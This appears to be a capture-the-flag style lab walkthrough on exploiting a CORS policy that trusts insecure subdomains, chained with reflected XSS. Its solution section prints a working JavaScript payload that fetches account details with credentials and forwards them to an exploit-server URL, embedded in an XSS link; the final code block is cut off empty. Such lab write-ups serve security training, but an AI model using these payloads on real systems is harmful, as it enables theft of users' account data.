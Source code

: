 ```
http://trusted-subdomain.vulnerable-website.com
```
- The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
- The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.
- This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.

# 

# Solution
- First look for subdomain that is vulnerable to xss
- Copy the link of the subdomain and pass it to origin header
- Notice that the origin is not allowed
- Try http scheme and notice that it is allowed
- First construct cors html like this
```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://Your-lab-link/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='your-lab-exploit-server/exploit?key='+this.responseText;
};
</script>
```
- Then pass it into the vulnerable Xss link like this
```
<script>
window.location="http://stock.0afb007803baead7804003630080003a.web-security-academy.net/?productId=<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://Your-lab-link/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='your-lab-exploit-server/exploit?key='+this.responseText;
};
</script>&storeId=1"
</script>
```
- Because the Xss is a link, We have to convert the xss payload into url format
- Convert the above Xss to this

```
<script>
```